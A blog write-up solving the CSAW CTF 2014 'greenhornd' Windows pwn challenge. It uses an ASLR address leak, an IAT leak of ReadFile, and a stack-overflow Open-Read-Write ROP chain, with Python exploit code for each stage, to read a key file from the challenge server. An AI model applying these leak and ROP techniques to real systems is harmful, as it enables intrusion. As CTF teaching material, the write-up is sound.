 ```yaml
---
layout: post
title: "CSAW CTF 2014: greenhornd Writeup"
date: 2020-09-05
tags: [x86, Pwn] 
description: The post explains how to solve the greenhornd challenge from CSAW CTF 2014. 
---
```


# Introduction

Nowadays, I'm trying to learn windows exploitation by reading the tutorials and solving tasks that recommended by open-source [seminar](https://github.com/leesh3288/WinPwn/tree/master/Seminar/2019_Winter_WinPwn) written with the Korean language (Thanks to google translate) besides other external resources. So, I decided to provide writeups for the chosen challenges existed within the seminar repository.

Consequently, I am going today to solve my first 32-bit windows pwn challenge within window10 which is greenhornd from CSAW CTF 2014 using the Open-Read-Write ROP chain to read the file named key from a remote server. Additionally, I will use [AppJailLauncher](https://www.trailofbits.com/expertise/appjaillauncher/) to launch the exe file for providing a game server experience using the following command.

> CommandLine
{:.filename}
{% highlight bash %}
AppJailLauncher.exe /network /key:key /port:9998 /timeout:30 greenhornd.exe
{% endhighlight %}


# Finding the Vulnerability

First of All, I executed the greenhornd exe, and the following text got printed to the screen which asks you to find the secret key and it suggested that you can look at strings within the binary using strings utility or IDA disassembler (sorry I will use R2 cutter xD ).

![img]({{'/assets/images/greenhornd/pwn1.png' | relative_url }}){: .center-image }*(**Figure[1]**)*

So, I started to check the strings using Cutter and find the secret password which is **GreenhornSecretPassword!!!** as appear in **Figure[2]**.

![img]({{'/assets/images/greenhornd/pwn2.png' | relative_url }}){: .center-image }*(**Figure[2]**)*

After inputting the secret password, a menu with the following options printed to the screen as appear in **Figure[3]**.

![img]({{'/assets/images/greenhornd/pwn3.png' | relative_url }}){: .center-image }*(**Figure[3]**)*

As appear in **Figure[4]**, These options are represented in the disassembly by switch table for achieving the jump to certain function based on your choice. However, I'm just interested in only two options which are **(A)SLR** and **(V)ulnerability**.

![img]({{'/assets/images/greenhornd/pwn4.png' | relative_url }}){: .center-image }*(**Figure[4]**)*


Let's start with the (A)SLR option, It prints text about Address Layout Randomization in windows beside give us two anonymous addresses as appear in the next figure.

![img]({{'/assets/images/greenhornd/pwn5.png' | relative_url }}){: .center-image }*(**Figure[5]**)*

So let us back to the disassembler to figure out what these two addresses. As you see inside the red-colored rectangle block within **Figure[6]**, The function **A_SLR** gets the module handle of the current process through WinApi **GetModuleHandle** which is the same as the ImageBase address of exe in memory then save ImageBase subtracted by value **0x400000** in the variable on the stack. Afterward, It sends the **ImageBase-0x400000** and the address holding it to the function **WriteAddressesToStdout** to print them respectively as appear in a blue-colored rectangle block.

![img]({{'/assets/images/greenhornd/pwn6.png' | relative_url }}){: .center-image }*(**Figure[6]**)*

Now we are done with **(A)SLR**, So let us start checking the **(V)urlnerability** option. As you see in the following screenshot, there is a text that asks you to input 1024 characters with some constraints in the input string.

![img]({{'/assets/images/greenhornd/pwn7.png' | relative_url }}){: .center-image }*(**Figure[7]**)*

Let's jump to the **Vulnerable_Function** to analyze it and check what the type of vulnerability it contains. The instructions within the red-colored block in **Figure[8]** holds responsibility for reading a string from stdin to the buffer at stack address equal to **(ebp-400h)** with a max length of **2048** characters. Therefore, The classic buffer overflow vulnerability exists as the max size of the string exceeds the size of the buffer specified for the input string which is **1024** characters. 

However, The function can exit without returning which will prevent the execution of overwritten saved return address if the string does not achieve a certain constraint. As appear in the blue-colored block which is responsible for the last-mentioned constraint, The instructions check if the **1st character** equal to **'C'** or **2nd character** equal to **'S'** or **3rd character** is equal to '**A'** or **4th character** equal to **'W'** to return otherwise the function exit without returning.

![img]({{'/assets/images/greenhornd/pwn8.png' | relative_url }}){: .center-image }*(**Figure[8]**)*


# Exploiting the vulnerable function

Based on previous analysis, We concluded that the **Vulnerable_Function** contains Buffer overflow vulnerability and we will exploit that vulnerability to build our Open-Read-write ROP chain. So let's define our stack layout that achieves the goal of reading the file named **key** then prints it content to stdout.

As appear in **Figure[9]**, The left-hand side represents the stack state before overflowing while The right-hand side of the diagram represents the stack layout after overflowing with appropriate values that mirror the Open-Read-Write ROP chain. 

The Blue-colored block within the following Figure represents functions/ROP Gadgets address. On the other hand, The orange blocks represent the parameters for the functions. Additionally, The grey text within the blocks represents the value of that block. 

Also, The parameters labeled with the same number as a certain function are parameters of this function. 

![img]({{'/assets/images/greenhornd/pwn9.png' | relative_url }}){: .center-image }*(**Figure[9]**)*

As you see in the previous diagram, There are missing addresses that will be needed to build our ROP chain. These values are OpenFile, ReadFile, WriteToStdout, ImageBase, and finally stack address that represents InputAddress.

As appear in **Figure[5]**, The **(A)SLR** option leak the **ImageBase-0x400000** and stack address that hold it. So, We will use them to estimate ImageBase by adding the same subtracted value. Also, InputAddress will be calculated by adding the offset(between the stack address holding **ImageBase-0x400000** and the InputAddress) which equals **0x3F4** to stack leaked address as you see in the following code snippet.

> First leakage stage in python
{:.filename}
{% highlight Python %}
def First_Leakage_Stage(conn):
 print("[x] working on First Leakage Stage...")
 try: 
  conn.sendline(b'GreenhornSecretPassword!!!')
  conn.sendline(b'A')
  conn.recvuntil("ASLR slide is: ").decode()
  line = conn.recvuntil(".").decode()
  Base_address = int(line.split(" ")[0],16)+0x400000
  InputAddress = int(line.split(" ")[8].replace(".",""),16)-0x3f4
  print("[+] First Leakage Stage succeeded... ")
  return Base_address,InputAddress
 except:
     sys.exit(0)
{% endhighlight %}


As appear in **Figure[6]**, There is a function called **WriteToStdout** that is responsible for writing to Stdout. It takes only one parameter that represents the address of string/bytes to write it to screen and it's located at address equals **ImageBase+0x14d0**.

Now we will work on leaking the addresses of **OpenFile** and **ReadFile** WinApi functions, The ReadFile is imported in the binary file which means its address saved inside IAT at address equal to **ImageBase+0x2014**.

So, Our plan will be based on overflowing the **Vulnerable_Function** to pass the IAT entry address of ReadFile function(**ImageBase+0x2014**) as a parameter to WriteToStdout As appear in **Figure[10]**.

![img]({{'/assets/images/greenhornd/pwn10.png' | relative_url }}){: .center-image }*(**Figure[10]**)*

In the following code snippet, We will receive the ReadFile Function address from Stdout. Then we will estimate the OpenFile function which equals **Readfile address + 0x35350**.

> Second leakage stage in python
{:.filename}
{% highlight Python %}
def Second_Leakage_Stage(conn,ImageBase):
 print("[x] working on Second Leakage Stage...")
 try:   
  conn.sendline(b'V')
  Payload=  b'CSAW'+b'A'*1024
  Payload+= p32(ImageBase+0x14d0) # WriteToStdout function
  Payload+= p32(ImageBase+0x1137) # ret address = vulnerable function
  Payload+= p32(ImageBase+0x2014) # import table entry that hold readfile address within Kernel32.dll
  conn.sendline(Payload)
  conn.recvuntil("with some constraints).\n\n")
  data= conn.recv(4)
  readfile = u32(data.decode())
  openfile = readfile+0x35350
  print("[+] Second Leakage Stage succeeded... ")
  return readfile,openfile
 except: 
  print("[-] Second Leakage Stage Failed... ")
  sys.exit(0)
{% endhighlight %}


Now we have all the addresses we need to construct our ROP chain that defined in **Figure[9]** and we will achieve it by using the following snippet of code.

> Constructing ROP chains
{:.filename}
{% highlight Python %}
def Open_Read_Write(conn,InputAddress,ImageBase,readfile_Fun,openfile_Fun):
 print("[x] reading key file from remote server...")   
 try:
  Payload= b'CSAW'+b'A'*1020 #Bypass condition & overflowing
  Payload+=p32(InputAddress+1056+8) # address to save the returned handle
  Payload+=p32(openfile_Fun) #address of openfile functions
  Payload+=p32(ImageBase+0x1ce8) # mov dword[ebp-8],eax gadget , eax ==> handle
  Payload+= p32(InputAddress+1248)+p32(InputAddress+1184)+p32(0) # openfile parameters , (lpname,structure,null)
  Payload+= p32(readfile_Fun) # readfile function address
  Payload+= p32(ImageBase+0x14d0) # print to screen function
  Payload+= b'b'*4 # (first parameter of readfile)random bytes which will be overwritten with handle value
  Payload+=p32(InputAddress+1084)+p32(100)+p32(0)+p32(0) # buffer+size_of_string+null+null
  Payload+= p32(ImageBase+0x128f) #exit(1) function 
  Payload+= p32(InputAddress+1084) #buffer to be printed to stdout
  Payload+= b'\x00'*100 # buffer values
  Payload+=b'c'*64 #openfile structure
  Payload+=b'key'+b'\x00' #filename
  conn.sendline(Payload)
  conn.recvuntil(".").decode() 
  print("[+] reading key file Succeeded and it contain following text:")
  print(conn.recvall().decode().split("\n")[2])
 except:
      print("[-] Failed to read file name key on remote server... ") 
      sys.exit(0)
{% endhighlight %}

The whole exploit script exists [Here](https://github.com/oviche/WindowsPwn/blob/master/greenhornd/exploit.py).





